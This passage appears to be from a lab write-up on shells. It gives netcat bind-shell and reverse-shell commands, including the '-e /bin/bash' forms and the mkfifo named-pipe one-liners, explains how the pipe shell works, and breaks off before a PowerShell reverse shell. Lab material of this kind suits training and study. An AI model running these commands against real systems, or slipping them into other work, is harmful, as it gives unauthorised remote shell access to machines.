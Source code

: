 ```

---

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a ```bindshell```, so we'll start with that. 

In some versions of ```netcat``` (including the ```nc.exe ``` Windows version included with Kali at ```/usr/share/windows-resources/binaries```, and the version used in Kali itself: ```netcat-traditional)``` there is a ```-e option``` which allows you to ```execute a process on connection```. For example, ```as a listener```:
```
nc -lvnp <PORT> -e /bin/bash
```
Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with 
```
nc <LOCAL-IP> <PORT> -e /bin/bash 
```
would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). 

- On Windows where a static binary is nearly always required anyway, this technique will work perfectly. 

- On Linux, however, we would instead use this code to create a listener for a bind shell:
```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

The following paragraph is the technical explanation for this command. It's slightly above the level of this room, so don't worry if it doesn't make much sense for now -- the command itself is what matters.

1. The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at ```/tmp/f```. 
2. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. 
3. The output of the netcat listener (i.e. the commands we send) then gets piped directly into ```sh```, sending the ```stderr``` output stream into ```stdout```, and sending ```stdout``` itself into the input of the named pipe, thus completing the circle.
![img](/assets/img/wts09.png)

A very similar command can be used to send a netcat reverse shell:
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

![img](/assets/img/wts10.png)

---

When ```targeting a modern Windows Server```, it is very common to require a ```Powershell reverse shell```, so we'll be covering the standard ```one-liner PSH reverse shell``` here.

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:
```